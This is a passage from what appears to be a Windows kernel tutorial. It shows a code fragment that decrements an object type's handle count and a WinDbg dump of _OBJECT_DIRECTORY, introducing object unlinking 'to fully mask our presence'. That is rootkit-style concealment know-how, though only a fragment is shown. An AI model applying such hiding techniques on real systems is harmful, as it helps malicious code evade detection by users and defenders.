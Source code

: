 ```cpp

    --sectionObjectType->TotalNumberOfHandles;

    return STATUS_SUCCESS;
}
```

### 1.3 Results:

<p align="center">
  <img src="./images/image1.jpg" width="1200" height="600">
</p>

## 2. Unlinking objects:
To fully mask our presence, we need to become familiar with several structures. Along the way, let's highlight the relevant fields:

```cpp
0: kd> dt nt!_OBJECT_DIRECTORY
   +0x000 HashBuckets      : [37] Ptr64 _OBJECT_DIRECTORY_ENTRY
   +0x128 Lock             : _EX_PUSH_LOCK
   +0x130 DeviceMap        : Ptr64 _DEVICE_MAP
   +0x138 ShadowDirectory  : Ptr64 _OBJECT_DIRECTORY
   +0x140 NamespaceEntry   : Ptr64 Void
   +0x148 SessionObject    : Ptr64 Void
   +0x150 Flags            : Uint4B
   +0x154 SessionId        : Uint4B
```
